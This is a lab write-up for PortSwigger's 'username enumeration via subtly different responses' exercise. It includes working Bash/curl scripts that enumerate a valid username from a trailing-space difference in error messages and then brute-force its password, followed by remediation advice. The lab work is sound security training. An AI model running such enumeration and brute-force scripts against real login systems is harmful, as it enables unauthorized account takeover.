





# Username Enumeration via Subtly Different Responses

> **Platform:** PortSwigger Web Security Academy
> **Category:** Authentication Vulnerabilities
> **Lab:** Username enumeration via subtly different responses
> **Difficulty:** Apprentice
> **Goal:** Identify a valid username, brute-force the password, and log in successfully.

---

## 1. Lab Overview

This lab demonstrates username enumeration through subtly different login responses.

The application appears to return the same error message for failed login attempts, but there is a small difference in the response depending on whether the username is valid or invalid.

The lab provides two wordlists:

* Candidate usernames
* Candidate passwords

The objective is to identify the valid username first, then use the password list to find the correct password.

---

## 2. Vulnerability Summary

The vulnerability exists because the application returns slightly different error messages for invalid usernames and valid usernames with incorrect passwords.

For an invalid username, the error message ended with a full stop:

```text
Invalid username or password.
```

For a valid username with an incorrect password, the error message looked almost the same, but the full stop was replaced by a trailing space:

```text
Invalid username or password 
```

This small difference allowed me to identify a valid username.

Even though the error message looked identical in the browser, the raw response revealed the difference.

---

## 3. Initial Analysis

After launching the lab, I landed on a blog-style website.


From there, I opened the login page.



I tested the login form using a random username and password to observe the application behavior.

The application returned a generic error message:

```text
Invalid username or password.
```

At first, this made it seem like username enumeration was not possible because the application did not clearly reveal whether the username or password was incorrect.

---

## 4. Request Analysis

I captured the login request and observed that the application sent a POST request to the `/login` endpoint.



The request body used the following structure:

```http
username=example&password=example
```

Because the username and password were sent as simple POST parameters, I could automate the login attempts using `curl`.

---

## 5. Mistake I Initially Made

Initially, I thought about brute-forcing every username and password combination directly.

This worked, but it was inefficient because it required thousands of requests. In the worst case, this approach could take more than 10,000 attempts.

The better approach was to identify the valid username first by comparing the error responses, then brute-force the password only for that username.

---

## 6. Correct Approach

The correct approach was:

1. Send a login request with each username and a known wrong password.
2. Extract the error message from the HTML response.
3. Compare each response with the normal invalid-username response.
4. Look for a response with a subtle difference.
5. Use the discovered valid username to brute-force the password.

---

## 7. Extracting the Error Message

I first tested a single request using `curl`.

```bash
curl -s -X POST "https://$HOST/login" \
  --data-urlencode "username=carlos" \
  --data-urlencode "password=test123"
```

The error message was inside the following HTML tag:

```html
<p class=is-warning>Invalid username or password.</p>
```

To extract only the error message, I used `grep`:

```bash
grep -oP '<p class=is-warning>\K.*(?=</p>)'
```

Explanation:

* `-o` prints only the matched part.
* `-P` enables Perl-compatible regular expressions.
* `\K` drops everything matched before it.
* `.*` captures the message text.
* `(?=</p>)` stops before the closing `</p>` tag.

This gave me a clean error message that could be compared automatically.

---

## 8. Username Enumeration Script

I wrote the following Bash script to test every username from the provided username list.

```bash
#!/usr/bin/env bash

HOST="0a13002a04343cd980e4f4ae00a700cf.web-security-academy.net"
INVALID_USER_MSG="Invalid username or password."

while IFS= read -r username; do
  msg=$(
    curl -s -X POST "https://$HOST/login" \
      --data-urlencode "username=$username" \
      --data-urlencode "password=test123" \
      | grep -oP '<p class=is-warning>\K.*(?=</p>)'
  )

  if [[ "$msg" != "$INVALID_USER_MSG" ]]; then
    echo "[+] Possible valid username found: $username"
    echo "[+] Response: '$msg'"
  fi
done < user_list.txt
```

The script compares every response with the normal invalid-username message:

```text
Invalid username or password.
```

If the response does not match exactly, the username is printed.

The script returned:

```text
[+] Possible valid username found: info
[+] Response: 'Invalid username or password '
```



The response for `info` did not end with a full stop. Instead, it contained a trailing space.

This confirmed that:

```text
Username: info
```

was valid.

---

## 9. Password Brute Force

After finding the valid username, I modified the script to test passwords from the provided password list.

```bash
#!/usr/bin/env bash

HOST="0a13002a04343cd980e4f4ae00a700cf.web-security-academy.net"
INVALID_PASSWORD_MSG="Invalid username or password "

while IFS= read -r password; do
  msg=$(
    curl -s -X POST "https://$HOST/login" \
      --data-urlencode "username=info" \
      --data-urlencode "password=$password" \
      | grep -oP '<p class=is-warning>\K.*(?=</p>)'
  )

  if [[ "$msg" != "$INVALID_PASSWORD_MSG" ]]; then
    echo "[+] Possible valid password found: $password"
    echo "[+] Response: '$msg'"
  fi
done < pass_list.txt
```

The script returned:

```text
[+] Possible valid password found: george
[+] Response: ''
```



The empty response meant that the warning message was no longer present, which indicated a successful login attempt.

The valid credentials were:

```text
Username: info
Password: george
```

---

## 10. Successful Login

I logged in using the discovered credentials:

```text
Username: info
Password: george
```

The login was successful and the lab was completed.



Lab Khatam Shud!

---

## 11. Remediation

The application should not reveal whether a username is valid through differences in error messages.

To fix this issue:

* Use the exact same error message for all failed login attempts.
* Ensure punctuation, spacing, and HTML structure are identical.
* Avoid different response lengths for invalid usernames and incorrect passwords.
* Add rate limiting to slow down brute-force attempts.
* Add account lockout or temporary throttling after repeated failed attempts.
* Monitor repeated login failures for suspicious behavior.

A safer error message would be:

```text
Invalid username or password.
```

This message should be returned exactly the same way for both cases:

* Invalid username
* Valid username with incorrect password

Even small differences like a missing full stop or an extra trailing space can create a username enumeration vulnerability.

---

## 12. Lessons Learned

* Username enumeration can happen through very small response differences.
* Error messages must be identical in wording, punctuation, spacing, and formatting.
* A trailing space can be enough to reveal a valid username.
* Brute-forcing all username and password combinations is inefficient.
* It is better to enumerate the username first, then brute-force the password.
* Custom scripts are useful when manual testing or Burp Suite Community Edition is too slow.

---

## 13. Final Summary

This lab demonstrated username enumeration through subtly different login responses. Although the application appeared to return the same error message for all failed login attempts, the raw response revealed a difference. Invalid usernames returned an error message ending with a full stop, while a valid username with an incorrect password returned the same message with a trailing space instead. By comparing these responses, I identified `info` as the valid username. I then brute-forced the password and successfully logged in with `george`.
